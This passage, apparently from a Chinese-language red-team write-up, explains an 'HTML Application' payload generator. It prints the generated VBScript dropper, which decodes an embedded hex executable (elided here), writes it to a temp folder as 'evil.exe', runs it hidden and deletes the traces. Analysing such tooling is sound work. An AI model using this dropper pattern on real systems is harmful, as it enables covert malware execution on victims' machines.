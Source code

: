 ![HTA 组成部分.png](assets/1698895384-84c186639e15725385514fdc6d346418.png)

HTML Application 菜单有三个方法：

-   Executable
-   PowerShell
-   VBA

Executable 生成内容是 VBScript 脚本，使用 Wscript.Shell 运行代码。

```plaintext
<script language="VBScript">
    Function var_func()
        var_shellcode = "4d5a90000300000004000000ffff0000b8000......"

        Dim var_obj
        Set var_obj = CreateObject("Scripting.FileSystemObject")
        Dim var_stream
        Dim var_tempdir
        Dim var_tempexe
        Dim var_basedir
        Set var_tempdir = var_obj.GetSpecialFolder(2)
        var_basedir = var_tempdir & "\" & var_obj.GetTempName()
        var_obj.CreateFolder(var_basedir)
        var_tempexe = var_basedir & "\" & "evil.exe"
        Set var_stream = var_obj.CreateTextFile(var_tempexe, true , false)
        For i = 1 to Len(var_shellcode) Step 2
            var_stream.Write Chr(CLng("&H" & Mid(var_shellcode,i,2)))
        Next
        var_stream.Close
        Dim var_shell
        Set var_shell = CreateObject("Wscript.Shell")
        var_shell.run var_tempexe, 0, true
        var_obj.DeleteFile(var_tempexe)
        var_obj.DeleteFolder(var_basedir)
    End Function

    var_func
    self.close
</script>
```
